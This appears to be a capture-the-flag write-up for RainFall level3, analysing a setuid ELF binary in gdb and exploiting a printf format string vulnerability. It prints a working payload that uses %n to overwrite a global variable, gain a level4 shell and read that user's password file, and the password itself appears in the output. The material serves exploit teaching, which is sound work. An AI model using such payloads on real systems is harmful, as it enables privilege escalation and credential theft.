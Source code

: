 # Level3

## Walkthrough

We list the files in the current home directory.

```bash
level3@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
level3@RainFall:~$ file level3
level3: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV),
 dynamically linked (uses shared libs), for GNU/Linux 2.6.24, 
 BuildID[sha1]=0x09ffd82ec8efa9293ab01a8bfde6a148d3e86131, not stripped
```

The file is owned by **level4** and has the **setuid** bit.

We list the functions inside the executable.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048344  _init
0x08048390  printf
0x08048390  printf@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  fwrite
0x080483b0  fwrite@plt
0x080483c0  system
0x080483c0  system@plt
0x080483d0  __gmon_start__
0x080483d0  __gmon_start__@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  v
0x0804851a  main
0x08048530  __libc_csu_init
0x080485a0  __libc_csu_fini
0x080485a2  __i686.get_pc_thunk.bx
0x080485b0  __do_global_ctors_aux
0x080485dc  _fini
```

There are 2 user-defined functions: `main()` and `v()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   ebp
   0x0804851b <+1>:     mov    ebp,esp
   0x0804851d <+3>:     and    esp,0xfffffff0
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
```

The `main()` function calls the `v()` function.

```
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x218
   0x080484ad <+9>:     mov    eax,ds:0x8049860
   0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:    lea    eax,[ebp-0x208]
   0x080484c4 <+32>:    mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    eax,[ebp-0x208]
   0x080484d2 <+46>:    mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    eax,ds:0x804988c
   0x080484df <+59>:    cmp    eax,0x40
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    eax,ds:0x8049880
   0x080484e9 <+69>:    mov    edx,eax
   0x080484eb <+71>:    mov    eax,0x8048600
   0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:    mov    DWORD PTR [esp],eax
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```

The `v()` function:
- calls `fgets()` to read user input and store it in `[ebp - 0x208]`
- calls `printf()` to print `fgets()` buffer
- retrieves the value stored at memory address `0x804988c` and compares it with `0x40`
- calls `system()` to execute `/bin/sh` if the condition is met

`v()` is vulnerable to a **format string vulnerability** which occurs when an user input is improperly used as a format string in functions like `printf()`, allowing attackers to manipulate memory, access sensitive data, or execute arbitrary code.  
Our goal is to overwrite the value stored at the address `0x804988c` and replace it with the number **64**.

The `printf()` function requests only one mandatory argument. The others, if needed, are also stored on the stack before the call (the first argument being at the top). This means it keeps iterating over the stack as long as it finds a format specifier.  
Furthermore, the function includes the format specifier `%n` which writes the number of printed characters into the address provided as its corresponding argument. If we input a memory address into the buffer of the format string, stored in the stack, and it matches the `%n` specifier, the number of written characters will be stored at this address.

To complete this level, we have to first find the position of the format string in the stack during the call to `printf()` compared to the position of its first argument.

```
(gdb) b printf
Breakpoint 1 at 0x8048390
(gdb) r
Starting program: /home/user/level3/level3 
AAAA   

Breakpoint 1, 0xb7e78850 in printf () from /lib/i386-linux-gnu/libc.so.6
(gdb) i r esp
esp            0xbffff41c       0xbffff41c
(gdb) x/8wx 0xbffff41c
0xbffff41c:     0x080484da      0xbffff430      0x00000200      0xb7fd1ac0
0xbffff42c:     0xb7ff37d0      0x41414141      0xb7e2000a      0x00000001
```

We see that our string represented in hexadecimal as `0x41414141` is located at `0xbffff430`, and we find this address near the top of the stack (in second position). We confirm that our format string is in **4th** position in the stack after the first argument passed to `printf()`.

Finally, with the position in mind, we input the target address followed by 3 `%(x)x` format specifiers and our final `%n` in fourth position, for a total of 64 characters.

```bash
level3@RainFall:~$ (python -c "print('\x8c\x98\x04\x08' + '%8x%8x%44x%n')"; cat) | ./level3 
�     200b7fd1ac0                                    b7ff37d0
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## Resources

- [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)
- [Format-String Vulnerability](https://fengweiz.github.io/20fa-cs315/labs/lab3-slides-format-string.pdf)
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings)
- [Format String Vulnerability](https://hackinglab.cz/en/blog/format-string-vulnerability)
